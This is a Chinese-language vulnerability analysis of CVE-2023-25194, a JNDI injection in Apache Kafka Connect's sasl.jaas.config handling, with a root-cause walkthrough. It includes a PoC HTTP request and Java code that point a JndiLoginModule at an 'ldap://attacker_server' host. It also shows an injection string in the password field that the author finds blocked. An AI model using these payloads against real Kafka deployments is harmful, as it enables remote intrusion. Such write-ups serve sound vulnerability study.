# 简介
Apache Kafka是一种分布式的，基于发布/订阅的消息系统。

* 生产者和消费者（producer和consumer）：消息的发送者叫 Producer，消息的使用者和接受者是 Consumer，生产者将数据保存到 Kafka 集群中，消费者从中获取消息进行业务的处理。
* broker：Kafka 集群中有很多个Server，其中每一个Server都可以存储消息，将每一个Server 称为一个kafka 实例，也叫做 broker。
* 主题（topic）：一个 topic 里保存的是同一类消息，相当于对消息的分类，每个 producer 将消息发送到 kafka 中，都需要指明要存的 topic 是哪个，也就是指明这个消息属于哪一类。
* 分区（partition）：kafka基于文件进行存储,每个 topic 都可以分成多个 partition，每个 partition 在存储层面是 append log 文件。

Apache Kafka 的一个关键依赖是 Apache Zookeeper，它是一个分布式配置和同步服务。Zookeeper 是 Kafka 代理和消费者之间的协调接口。Kafka 服务器通过 Zookeeper 集群共享信息。

CVE-2023-25194是发生在 Apache Kafka Connector中的JNDI注入漏洞。通过 Kafka Connect REST API 配置连接器时，经过身份验证的操作员可以将连接器的任何Kafka客户端的“sasl.jaas.config”属性设置为“com.sun.security.auth.module.JndiLoginModule”，LoginModule允许访问用户指定的JNDI 服务提供商，因此导致JNDI注入。

影响版本: Kafka<3.4.0,因为: "Since Apache Kafka 3.4.0, we have added a system property ("org.apache.kafka.disallowed.login.modules") to disable the problematic login modules usage in SASL JAAS configuration. Also by default "com.sun.security.auth.module.JndiLoginModule" is disabled from Apache Kafka 3.4.0."

# 复现

POC参考https://github.com/ohnonoyesyes/CVE-2023-25194：

```java
POST /connectors HTTP/1.1
Host: xxxx:8083
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Type: application/json
Connection: close
Content-Length: 1109

{"name": "test", 
   "config":
    {
        "connector.class":"io.debezium.connector.mysql.MySqlConnector",
    	"database.hostname": "xxxxx",
    	"database.port": "3306",
    	"database.user": "root",
    	"database.password": "xxxxxx",
    	"database.dbname": "xxxx",
    	"database.sslmode": "SSL_MODE",
        "database.server.id": "1234",
    	"database.server.name": "localhost",
        "table.include.list": "MYSQL_TABLES",
    	"tasks.max":"1",
        "topic.prefix": "aaa22",
        "debezium.source.database.history": "io.debezium.relational.history.MemoryDatabaseHistory",
        "schema.history.internal.kafka.topic": "aaa22",
        "schema.history.internal.kafka.bootstrap.servers": "kafka:9202",
    	"database.history.producer.security.protocol": "SASL_SSL",
    	"database.history.producer.sasl.mechanism": "PLAIN",
    	"database.history.producer.sasl.jaas.config": "com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://aaa\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
    }
}
```

这里直接通过将producer中配置项设置为`com.sun.security.auth.module.JndiLoginModule` 方式进行验证:

* 下载kafka
* 启动server和zookeeper
```shell
bin\windows\zookeeper-server-start.bat config\zookeeper.properties
bin\windows\kafka-server-start.bat config\server.properties
```
* 设置好rmi server

使用下面的代码将kafka的认证方式设置为com.sun.security.auth.module.JndiLoginModule,从而触发JndiLoginModule中的InitialContext.lookup(userProvider):
```java
public class ProducerDemo {

    public static void main(String[] args) {
        System.out.println("I am a Kafka Producer");

        // producer properties
        String bootstrapServers = "127.0.0.1:9092";

        // create Producer properties
        Map configs = new HashMap();
        configs.put(ProducerConfig.BOOTSTRAP_SERVERS_CONFIG, bootstrapServers);
        configs.put(ProducerConfig.KEY_SERIALIZER_CLASS_CONFIG, StringSerializer.class.getName());
        configs.put(ProducerConfig.VALUE_SERIALIZER_CLASS_CONFIG, StringSerializer.class.getName());
        // https://kafka.apache.org/documentation/#producerconfigs_sasl.jaas.config
        configs.put("SSL","true");
        configs.put("sasl.mechanism","PLAIN");
        configs.put("security.protocol","SASL_SSL");
        configs.put("sasl.jaas.config","com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://attacker_server\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";");

        //Create the Kafka producer
        KafkaProducer<String, String> producer = new KafkaProducer<>(configs);
        // create a producer record
        ProducerRecord<String, String> producerRecord = new ProducerRecord<>("first_topic", "hello world");
        // send data - asynchronous
        producer.send(producerRecord);
        // flush data - synchronous
        producer.flush();
        // flush and close producer
        producer.close();
    }
}
```


# 漏洞原理
在`KafkaProducer`的构造函数中,会基于properties初始化`ProducerConfig`的实例config,在`newSender(LogContext logContext, KafkaClient kafkaClient, ProducerMetadata metadata)`中创建ChannelBuilder:



当配置项中的security.protocol为`SASL_PLAINTEXT`或`SASL_SSL`时，配置项里的`sasl.mechanism`必须指定，否则为null时抛异常不会进入后面的流程：





然后当security.protocol为`SASL_PLAINTEXT`或`SASL_SSL`并且指定了`sasl.mechanism`时基于config信息生成`JaasContext`的实例,然后生成 SaslChannelBuilder实例：




在`new JaasConfig(globalContextName, dynamicJaasConfig.value())`中会把`sasl.jaas.config`中的字符串解析成`AppConfigurationEntry`的实例，其中包括`loginModuleName`以及options(解析规则后面再说);

然后调用`channelBuilder.configure(configs)`方法，后面进入`LoginManager.acquireLoginManager`，后面的调用栈：
```text
	  at javax.security.auth.login.LoginContext.invoke(LoginContext.java:710)
        at javax.security.auth.login.LoginContext.access$000(LoginContext.java:195)
        at javax.security.auth.login.LoginContext$4.run(LoginContext.java:682)
        at javax.security.auth.login.LoginContext$4.run(LoginContext.java:680)
        at java.security.AccessController.doPrivileged(AccessController.java:-1)
        at javax.security.auth.login.LoginContext.invokePriv(LoginContext.java:680)
        at javax.security.auth.login.LoginContext.login(LoginContext.java:587)
        at org.apache.kafka.common.security.authenticator.AbstractLogin.login(AbstractLogin.java:60)
        at org.apache.kafka.common.security.authenticator.LoginManager.<init>(LoginManager.java:62)
        at org.apache.kafka.common.security.authenticator.LoginManager.acquireLoginManager(LoginManager.java:105)
        at org.apache.kafka.common.network.SaslChannelBuilder.configure(SaslChannelBuilder.java:147)
        at org.apache.kafka.common.network.ChannelBuilders.create(ChannelBuilders.java:146)
        at org.apache.kafka.common.network.ChannelBuilders.clientChannelBuilder(ChannelBuilders.java:67)
        at org.apache.kafka.clients.ClientUtils.createChannelBuilder(ClientUtils.java:99)
        at org.apache.kafka.clients.producer.KafkaProducer.newSender(KafkaProducer.java:450)
        at org.apache.kafka.clients.producer.KafkaProducer.<init>(KafkaProducer.java:421)
        at org.apache.kafka.clients.producer.KafkaProducer.<init>(KafkaProducer.java:270)
        at com.github.enokiy.kafkaDemo.ProducerDemo.main(ProducerDemo.java:32)

```

在LoginContext.invoke中通过反射获取到loginmodulename对应的类（这里为com.sun.security.auth.module.JndiLoginModule）的实例，并且调用该类的initialize方法：


然后进入JndiLoginModule的login方法：userProvider以及groupProvider都不为null，并且设置了`useFirstPass=true`或`tryFirstPass=true`时都会进入`attemptAuthentication`方法,在这里会调用`InitialContext`实例的`lookup(userProvider)`方法,从而导致jJNDI注入。

综上，只要攻击者可以控制kafka-clients连接时的属性，将属性的配置项security.protocol设置为`SASL_PLAINTEXT`或`SASL_SSL`并且指定了`sasl.mechanism`、sasl.jaas.config值设置为com.sun.security.auth.module.JndiLoginModule，并且配置项中的userProvider以及groupProvider都不为null，同时设置了`useFirstPass=true`或`tryFirstPass=true`时，kafka client就会发起JNDI连接，从而导致JNDI注入漏洞。

上面提到的将sasl.jaas.config的配置字符串解析为`AppConfigurationEntry`的实例的规则如下：
* 通过StreamTokenizer将输入字符串进行解析，作为StreamTokenizer中空白字符作为分隔符，第一个字符串作为loginModuleName，第二个字符串作为`LoginModuleControlFlag`,后面的都以key=value的方式进行解析然后放入options这个map中。解析过程中如果遇到分号；，则返回AppConfigurationEntry的实例，进入下一个AppConfigurationEntry的解析：




为什么想要看这个解析规则，是因为，在有些场景下，sasl.jaas.config中前面的loginmodule代码中已经做了限定，用户可控的输入只包括username和password，这种场景下是否还能利用解析规则来让loginmodule走JNDI注入:
假设有代码如下：
```text
configs.put("sasl.jaas.config","org.apache.kafka.common.security.scram.ScramLoginModule required username='"+username+"' password='"+pwd+"'");
```
其中username和password用户可控，那么是否可以利用解析规则来引入JndiLoginModule呢：
比如，我们输入正常的username，但是password输入如下:
```text
test123';com.sun.security.auth.module.JndiLoginModule required user.provider.url='aa' useFirstPass=true tryFirstPass=true group.provider.url='bb' serviceName='cc' username='dd' password='ee';/*
```
调试发现`JaasConfig`中确实可以通过这种方式引入JndiLoginModule，成功把JndiLoginModule对应的AppConfigurationEntry的实例添加到`JaasConfig`的configEntries中:



但是，在后面`JaasContext`生成实例时会检查获取到的configEntries的size是不是1，如果不是1，直接抛异常。因此通过这种方式并不能引入新的loginModule。



那么，在bootstrap.server、username、password可控时，有没有其他的漏洞利用方式呢？ 后面再继续分析；
# 关联的其他CVE
Apache Druid最新的JNDI注入漏洞也是一样的原理。

# 其他
之前一直使用BeanFactory挺好用的，但是最近复现的时候发现在tomcat>8.5.78的版本上报错如下:
```shell
The forceString option has been removed as a security hardening measure. Instead, if the setter method doesn't use String, a primitive or a primitive wrapper, the factory will look for a method with the same name as the setter that accepts a String and use that if found.
```

看tomcat的变更记录也有提到: https://tomcat.apache.org/tomcat-8.5-doc/changelog.html


需要找其他的gadgets来替代了。